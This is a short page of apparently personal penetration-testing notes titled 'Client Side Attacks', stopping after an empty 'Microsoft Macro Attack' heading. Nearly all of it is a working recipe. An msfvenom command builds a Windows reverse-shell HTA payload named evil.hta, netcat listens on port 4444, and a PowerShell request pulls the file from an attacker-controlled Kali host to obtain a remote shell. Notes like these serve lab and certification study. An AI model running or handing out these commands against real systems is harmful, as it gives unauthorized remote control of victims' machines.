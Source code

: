 ```yaml
---
title: Client Side Attacks
layout: default
nav_order: 5
parent: Exploitation

---
```


# Client Side Attacks
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---

## **<ins>HTA Applications</ins>**
1. Generating HTA payload via `msfvenom` for **Windows**:
```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```
2. Create netcat listener
```bash
sudo nc -nvlp 4444
```

3. On the **Windows machine**, browse to the IP of the Kali machine hosting the `evil.hta` file
```powershell
Invoke-WebRequest -URI http://$KALI_IP:80/evil.hta
```

4. Observe reverse shell

## **<ins>Microsoft Macro Attack</ins>**
1. 


